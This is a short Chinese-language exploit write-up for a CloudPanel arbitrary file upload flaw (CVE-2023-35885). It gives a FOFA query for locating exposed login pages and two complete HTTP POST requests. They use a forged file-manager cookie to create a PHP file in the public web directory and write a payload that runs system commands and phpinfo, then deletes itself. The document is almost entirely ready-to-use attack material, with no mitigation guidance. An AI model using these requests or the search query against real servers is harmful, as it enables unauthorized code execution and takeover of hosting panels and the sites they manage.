 ## CloudPanel RCE漏洞 CVE-2023-35885
CloudPanel 是一个基于 Web 的控制面板或管理界面，旨在简化云托管环境的管理。它提供了一个集中式平台，用于管理云基础架构的各个方面，包括虚拟机 （VM）、存储、网络和应用程序。CloudPanel存在任意文件上传漏洞，攻击者可以通过接口创建PHP文件来获取服务器权限。

## fofa
```
title=="CloudPanel | Log In"
```

`/file-manager/backend/makefile`接口创建文件
```
POST /file-manager/backend/makefile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (compatible; MSIE 5.0; Windows NT 5.1; Trident/3.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 43
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/&name=confg.php
```
`/file-manager/backend/text`接口写入文件内容
```

POST /file-manager/backend/text HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (compatible; MSIE 5.0; Windows NT 5.1; Trident/3.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 93
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/confg.php&content=<?php system('id');phpinfo();unlink(__FILE__)?>
```
文件路径：url\public\confg.php
